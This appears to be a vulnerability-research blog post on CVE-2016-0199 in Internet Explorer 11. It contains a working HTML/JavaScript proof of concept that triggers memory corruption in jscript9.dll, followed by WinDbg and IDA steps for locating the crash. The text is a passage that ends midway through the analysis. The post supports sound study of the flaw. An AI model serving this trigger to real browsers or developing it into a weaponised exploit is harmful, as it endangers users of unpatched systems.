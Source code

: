 ```yaml
---
layout: post
title: "CVE-2016-0199"
date: 2018-05-15 15:02:16 -0500
comments: true
categories: 
---
```


###0x0 Enviroment:

* Windows 7 SP1 32-bit
* IE 11
* Windbg


###0x1 POC:

```html
<meta http-equiv="X-UA-Compatible" content="IE=7">
<script>
oElement = document.createElement("IMG");
var oAttr = document.createAttribute("loop");
oAttr.nodeValue = oElement;
oElement.loop = 0x41424344;
oElement.setAttributeNode(oAttr);
oElement.removeAttributeNode(oAttr);
CollectGarbage();
</script>
```

###0x2 Vulnerability Reproduce

Run the poc and get crash in windbg:

{% img  /images/blog/vulnerability/cve_2016_0199/1.PNG  [title manually exploit [alt text]] %}

Here we get Access violation exception

```
jscript9!JavascriptThreadService::EnumerateTrackingClient+0x59252:
695b0de2 8b30            mov     esi,dword ptr [eax]  ds:0023:41424344=????????
```
Next we need to locate this code in jscript9.dll in IDA Pro. The address is 0x695b0de2 and we need to get base address of this DLL:


`lmvm jscript9`

lmvm <module> - Dumps information about the module. Remember to use <module> and not <module.dll>. 

{% img  /images/blog/vulnerability/cve_2016_0199/2.PNG  [title manually exploit [alt text]] %}

start address is 0x693b0000, so the address we want to check in IDA Pro is :

`2:051> ? 695b0de2 - 693b0000 + 10000000`

{% img  /images/blog/vulnerability/cve_2016_0199/3.PNG  [title manually exploit [alt text]] %}
